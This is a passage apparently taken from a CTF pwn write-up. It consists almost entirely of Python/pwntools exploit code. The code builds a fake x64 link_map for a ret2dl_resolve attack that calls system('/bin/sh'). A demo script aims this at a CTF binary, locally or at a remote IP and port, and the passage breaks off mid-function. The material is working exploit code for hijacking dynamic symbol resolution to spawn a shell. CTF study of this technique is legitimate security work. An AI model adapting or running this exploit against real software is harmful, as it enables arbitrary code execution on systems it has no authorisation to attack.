 ```python
    0x28: append
    0x30: r_offset
    0x38: fake_DT_SYMTAB: 0
    0x40: fake_DT_SYMTAB: known_offset_addr-8
    0x48: /bin/sh(for system)
    0x68: P_DT_STRTAB = linkmap_addr(just a pointer)
    0x70: p_DT_SYMTAB = fake_DT_SYMTAB
    0xf8: p_DT_JMPREL = fake_DT_JMPREL
    0x100: END
    '''
    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr

    linkmap=""
    linkmap+=p64(two_offset&(2**64-1))
    linkmap+=p64(0)+p64(linkmap_addr+0x18)
    linkmap+=p64((linkmap_addr+0x30-two_offset)&(2**64-1))+p64(0x7)+p64(0)
    linkmap+=p64(0)
    linkmap+=p64(0)+p64(known_offset_addr-8)
    linkmap+='/bin/sh\x00'#for system offset 0x48
    linkmap = linkmap.ljust(0x68,'A')
    linkmap+=p64(linkmap_addr)
    linkmap+=p64(linkmap_addr+0x38)
    linkmap = linkmap.ljust(0xf8,'A')
    linkmap+=p64(linkmap_addr+8)

    resolve_call = p64(plt0+6)+p64(linkmap_addr)+p64(0)
    return (linkmap,resolve_call)
```


[DEMO](http://veritas501.space/2018/03/28/%E4%B8%A4%E6%AC%A1CTF%E6%AF%94%E8%B5%9B%E6%80%BB%E7%BB%93/#pwn-xx-game)：

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
    cn = process(['./dec.pwn','4091897675'],env={'LD_PRELOAD':'./libc.so'})
    bin = ELF('./dec.pwn')
    libc = ELF('./libc.so')
else:
    cn = remote('39.107.32.202',2333)
    bin = ELF('./dec.pwn')
    libc = ELF('./libc.so')

def z(a=''):
    gdb.attach(cn,a)
    if a == '':
        raw_input()

luckynum = [4091897675,4091897725,4091897731]

def ret2dl_resolve_linkmap_x64(ELF_obj,known_offset_addr,two_offset,linkmap_addr):
    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr
    linkmap=""
    linkmap+=p64(two_offset&(2**64-1))
    linkmap+=p64(0)+p64(linkmap_addr+0x18)
    linkmap+=p64((linkmap_addr+0x30-two_offset)&(2**64-1))+p64(0x7)+p64(0)
    linkmap+=p64(0)
```